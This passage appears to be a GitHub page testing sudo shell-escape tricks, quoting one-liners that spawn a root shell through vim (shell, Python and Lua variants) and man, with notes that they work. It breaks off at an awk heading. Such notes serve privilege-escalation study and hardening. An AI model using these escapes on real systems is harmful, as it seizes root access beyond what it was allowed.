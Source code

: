 ![image](https://user-images.githubusercontent.com/14150485/172014113-282340b7-894c-47b5-b796-758ee6beb9f2.png)

<br />

**vim**
-------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

*(a) `sudo vim -c ':!/bin/sh'`*

*(b) This requires that vim is compiled with Python support. Prepend :py3 for Python 3.*
<br />
*`sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`*

*(c) This requires that vim is compiled with Lua support.*
<br />
*`sudo vim -c ':lua os.execute("reset; exec sh")'`*

<br />

The command demonstrated in example (a) seems to run successfully out of the box:

![image](https://user-images.githubusercontent.com/14150485/172015286-a65b7835-d9d9-4733-8554-845b915f2adb.png)

Examples (b) and (c) require compiling `vim` with Python and LUA respectively, as instructed.

<br />

**man**
-------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

```
sudo man man
!/bin/sh
```

![image](https://user-images.githubusercontent.com/14150485/172016119-72b9ebb8-61dc-4ef2-b38b-05e7ea6e35a9.png)

Once again, the exploit grants root access to the machine.

![image](https://user-images.githubusercontent.com/14150485/172016189-387d4b96-cde9-4895-825b-e2ab0aa8949f.png)

<br />

**awk**
-------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

